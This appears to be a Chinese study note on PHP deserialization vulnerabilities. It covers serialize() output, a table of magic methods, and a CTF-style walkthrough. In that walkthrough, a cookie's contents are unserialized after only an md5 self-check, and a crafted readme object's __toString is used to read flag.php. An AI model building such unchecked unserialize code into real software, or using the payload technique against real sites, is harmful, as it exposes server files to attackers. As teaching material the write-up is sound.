 ﻿---
title: Serialization-PHP
categories:
- Network_Security
- Web
- Serialization
- Principle
- PHP
tags:
- Network_Security
date: 2024-01-23 15:52:53
---

# 序列化漏洞

## 1. 序列化介绍

1. 序列化就是将对象状态转换为可保持或者可传输的格式（例如 Json）的过程。其逆过程就是反序列化，即将流数据转换成对象。

## 2. PHP 序列化

### 1. 序列化的函数：

1. 在 PHP 中，使用 `serialize()` 方法来序列化一个变量。

### 2. 例子

1. 假设有这样的一段代码：

    ```php
    $arr = array( 
      "0" => array( 
        "gameName" => "德乙", 
        "homeName" => "比勒费尔德", 
        "guestName" => "不伦瑞克", 
        "endTime" => "2015-08-21" 
      ), 
      "1" => array( 
        "gameName" => "英超", 
        "homeName" => "水晶宫", 
        "guestName" => "阿斯顿维拉", 
        "endTime" => "2015-08-22" 
      ) 
    ); 
    
    $serialize = serialize($arr); 
    echo $serialize; 
    ```

    然后其序列化的结果为：

    ```php
    a:2:{i:0;a:4:{s:8:"gameName";s:6:"德乙";s:8:"homeName";s:15:"比勒费尔德";s:9:"guestName";s:12:"不伦瑞克";s:7:"endTime";s:10:"2015-08-21";}i:1;a:4:{s:8:"gameName";s:6:"英超";s:8:"homeName";s:9:"水晶宫";s:9:"guestName";s:15:"阿斯顿维拉";s:7:"endTime";s:10:"2015-08-22";}} 
    ```

    将其放在 PHP 在线反序列化的网站中反序列化，得到：

    ### ![image-20220607194428014](image-20220607194428014.png)

### 3. PHP 常见的 magic 方法：

| 方法名                                        | 触发点                                                       |
| --------------------------------------------- | ------------------------------------------------------------ |
| `__construct`                                 | 在创建对象时初始化对象（类似于构造函数），用于变量的初始化   |
| `__destruct`                                  | 对象销毁时调用，即用户销毁或者内核自动销毁时调用（有点像析构函数） |
| `__get`                                       | 用于从不可访问的属性读取数据，即在调用私有属性的时候会自动执行 |
| `__set`                                       | 用于将数据写入不可访问的属性                                 |
| `__isset`                                     | 在不可访问的属性上调用 `isset()` 或 `empty()` 触发           |
| `__unset`                                     | 和 `__isset` 类似                                            |
| `__call`                                      | 在对象上下文中调用不可访问或者不存在的方法时触发，即当调用对象中不存在的方法会自动调用该方法 |
| `__callStatic`                                | 在对象上下文中调用不可访问或者不存在的静态方法时触发，即当调用对象中不存在的方法会自动调用该方法 |
| `__sleep`                                     | 在调用 `serialize()` 时先被调用，其一般的作用是清理对象或者提交未提交的数据，并返回一个包含 对象中所有应该被序列化的变量名称的 数组（就是可以指定被序列化的内容）。如果未返回任何内容，那么 `null` 就会被序列化，并产生错误。 |
| `__wakeup`                                    | 在调用 `unserialize()` 时先被调用，返回空值，通常用于执行重新链接数据库或者其他初始化操作。 |
| `__serialize`<br/>适用于 PHP 7.4.0 以上版本   | 优先级高于 `__sleep()` 且会替代其执行，如果对象继承实现了 `Serializable` 接口，那么该对象的 `serialize()` 将会被 `__serialize`() 替代。 |
| `__unserialize`<br/>适用于 PHP 7.4.0 以上版本 | 和 `__serialize()` 差不多，同样会替代 `__wakeup()`           |
| `__toString`                                  | 和 Java 的 `toString()` 类似                                 |
| `__clone`                                     | 当对象被复制时调用                                           |
| ...还有其他方法，用到后就补充                 |                                                              |

### 4. 反序列化例题：`__toString()` 的反序列化

1. `__toString()`，和 Java 的 `toString()` 很类似，当一个类被当作字符串使用的时候（例如打印出来），就会自动调用该方法。

2. 题目源代码如下：

    ```php+HTML
    <?php
    // 创建一个类
    Class readme{
        public function __toString()
        {
            // __toString() 的结果是将变量 source 指代的文件在网页中格式化显示。
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    // 用 GET 给 source 随便传值就可以获得源代码 
    if(isset($_GET['source'])){
        $s = new readme();
        $s->source = __FILE__;
        echo $s;
        exit;
    }
    // $todos = [];
    if(isset($_COOKIE['todos'])){
        $c = $_COOKIE['todos'];
        // 变量 h 获取 cookie 的前 32 位
        $h = substr($c, 0, 32);
        // 变量 m 获取 cookie 的 32 位向后的字符串
        $m = substr($c, 32);
        // 如果 m 的 md5 hash 值和 h 相等，则反序列化变量 m 的内容
        if(md5($m) === $h){
            $todos = unserialize($m);
        }
    }
    // 感觉这里可以应用，因为他序列化并且加密了（待学习补充）
    if(isset($_POST['text'])){
        $todo = $_POST['text'];
        $todos[] = $todo;
        $m = serialize($todos);
        $h = md5($m);
        setcookie('todos', $h.$m);
        header('Location: '.$_SERVER['REQUEST_URI']);
        exit;
    }
    ?>
    <html>
    <head>
    </head>
    
    <h1>Readme</h1>
    <a href="?source"><h2>Check Code</h2></a>
    <ul>
        <!-- 这里将变量 todos 进行一个遍历（从 $todos[] = $todo;）以及其需要遍历来看，其本身应该是一个数组，那么需要传入一个数组 -->
        <?php foreach($todos as $todo):?>
            <li><?=$todo?></li>
        <?php endforeach;?>
    </ul>
    
    <form method="post" href=".">
        <textarea name="text"></textarea>
        <input type="submit" value="store">
    </form>
    ```

3. 因此构造脚本，生成序列化的结果和 md5 加密后的字符串

    ```php
    <?php
    // 类不变，直接拿过来
    Class readme{
        public function __toString()
        {
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    if(isset($_GET['source'])){
        $s = new readme();
        // 这里如果直接改成 flag.php，那么就可以直接读取到源码
        $s->source = 'flag.php';
        // 将变量 s 变成数组，因为它到时要被反序列化赋值给变量 todos
        $s=[$s];
        // 打印序列化的内容和序列化加密后的内容
        echo serialize($s);
        echo md5(serialize($s));
        echo $s;
        exit;
    }
    ```

4. 转换后的结果如下：

    ![image-20220617162348376](image-20220617162348376.png)

5. 在 burpsuite 中设置 cookie 值（url 编码），让其反序列化并在 html 代码中遍历打印（打印类时就会调用 `__toString()`），从而将 `flag.php` 显示出来。

    ![image-20220617162642514](image-20220617162642514.png)

6. 待学习补充：text 的作用。



